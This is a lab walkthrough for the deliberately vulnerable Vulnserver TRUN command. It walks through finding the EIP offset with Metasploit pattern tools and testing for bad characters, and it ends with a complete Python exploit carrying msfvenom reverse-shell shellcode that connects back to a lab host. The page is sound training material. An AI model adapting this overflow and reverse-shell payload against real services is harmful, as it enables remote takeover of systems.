 ```yaml
---
title: "TRUN EIP Overwrite"
layout: home
permalink: /vulnserver/trun/
collection: vulnserver
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: POC
import socket
import os
import sys

crash="A"*5000

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-01.png)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500
```
Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Pattern
import socket
import os
import sys

crash="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3>

buffer="TRUN /.:/"
buffer+=crash

print "Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running the Vulnserver TRUN Pattern Python Script against the target system shows that the following pattern value is being stored in EIP.

<!--- <p align="center">
  <img src="/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png">
  </p>
--->

![trun-eip-overwrite-media-02 align="center"](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png)

EIP address is 386F4337. Use the Metasploit pattern offset utility to identify where the bytes are located in the 2500 byte buffer.
	 > /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337

![trun-eip-overwrite-media-03](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-03.png)

An exact match was found at offset 2003 bytes.  Modify the buffer in the POC script to now send 2003 "A" characters, 4 "B" characters, and 1993 "C" characters; this should overwrite EIP with 4 "B" characters while retaining a 4000 byte buffer size.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Control
import socket
import os
import sys

crash="A"*2003 + "B"*4 + "C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
Running the updated script against the Vulnserver crashes the server and produces the following EIP output in OllyDbg.

![trun-eip-overwrite-media-04](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-04.png)

![trun-eip-overwrite-media-05](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-05.png)

The crash buffer has successfully overwritten EIP with four (4) "B" "\x42" characters; we now have control over EIP. The next step is to identify any bad characters the might not work for our shellcode.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Bad Characters
import socket
import os
import sys

badchar=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

crash="A"*2003 + "B"*4 + badchar  #"C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
![trun-eip-overwrite-media-06](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-06.png)

From looking at the output, we can tell that there are no bad characters other than \x00. Generate a reverse shell using msfvenom and insert it into the Vulnserver TRUN Python Script and proceed it with a 15 character NOP sled.
	> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.83.122 LPORT=4444 -b "\x00" -f c

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Shell
import socket
import os
import sys

shellcode=("\xda\xc5\xd9\x74\x24\xf4\x5d\xbb\xcc\xa2\xea\x74\x33\xc9\xb1"
"\x52\x83\xed\xfc\x31\x5d\x13\x03\x91\xb1\x08\x81\xd5\x5e\x4e"
"\x6a\x25\x9f\x2f\xe2\xc0\xae\x6f\x90\x81\x81\x5f\xd2\xc7\x2d"
"\x2b\xb6\xf3\xa6\x59\x1f\xf4\x0f\xd7\x79\x3b\x8f\x44\xb9\x5a"
"\x13\x97\xee\xbc\x2a\x58\xe3\xbd\x6b\x85\x0e\xef\x24\xc1\xbd"
"\x1f\x40\x9f\x7d\x94\x1a\x31\x06\x49\xea\x30\x27\xdc\x60\x6b"
"\xe7\xdf\xa5\x07\xae\xc7\xaa\x22\x78\x7c\x18\xd8\x7b\x54\x50"
"\x21\xd7\x99\x5c\xd0\x29\xde\x5b\x0b\x5c\x16\x98\xb6\x67\xed"
"\xe2\x6c\xed\xf5\x45\xe6\x55\xd1\x74\x2b\x03\x92\x7b\x80\x47"
"\xfc\x9f\x17\x8b\x77\x9b\x9c\x2a\x57\x2d\xe6\x08\x73\x75\xbc"
"\x31\x22\xd3\x13\x4d\x34\xbc\xcc\xeb\x3f\x51\x18\x86\x62\x3e"
"\xed\xab\x9c\xbe\x79\xbb\xef\x8c\x26\x17\x67\xbd\xaf\xb1\x70"
"\xc2\x85\x06\xee\x3d\x26\x77\x27\xfa\x72\x27\x5f\x2b\xfb\xac"
"\x9f\xd4\x2e\x62\xcf\x7a\x81\xc3\xbf\x3a\x71\xac\xd5\xb4\xae"
"\xcc\xd6\x1e\xc7\x67\x2d\xc9\x28\xdf\x7e\x73\xc1\x22\x80\x92"
"\x4d\xaa\x66\xfe\x7d\xfa\x31\x97\xe4\xa7\xc9\x06\xe8\x7d\xb4"
"\x09\x62\x72\x49\xc7\x83\xff\x59\xb0\x63\x4a\x03\x17\x7b\x60"
"\x2b\xfb\xee\xef\xab\x72\x13\xb8\xfc\xd3\xe5\xb1\x68\xce\x5c"
"\x68\x8e\x13\x38\x53\x0a\xc8\xf9\x5a\x93\x9d\x46\x79\x83\x5b"
"\x46\xc5\xf7\x33\x11\x93\xa1\xf5\xcb\x55\x1b\xac\xa0\x3f\xcb"
"\x29\x8b\xff\x8d\x35\xc6\x89\x71\x87\xbf\xcf\x8e\x28\x28\xd8"
"\xf7\x54\xc8\x27\x22\xdd\xf8\x6d\x6e\x74\x91\x2b\xfb\xc4\xfc"
"\xcb\xd6\x0b\xf9\x4f\xd2\xf3\xfe\x50\x97\xf6\xbb\xd6\x44\x8b"
"\xd4\xb2\x6a\x38\xd4\x96")

crash="A"*2003 + "\xAF\x11\x50\x62" + "\x90"*15 + shellcode

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Launch Vulnserver.exe without attaching it to OllyDbg and launch the Vulnserver TRUN Python Script.

![trun-eip-overwrite-media-07](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-07.png)
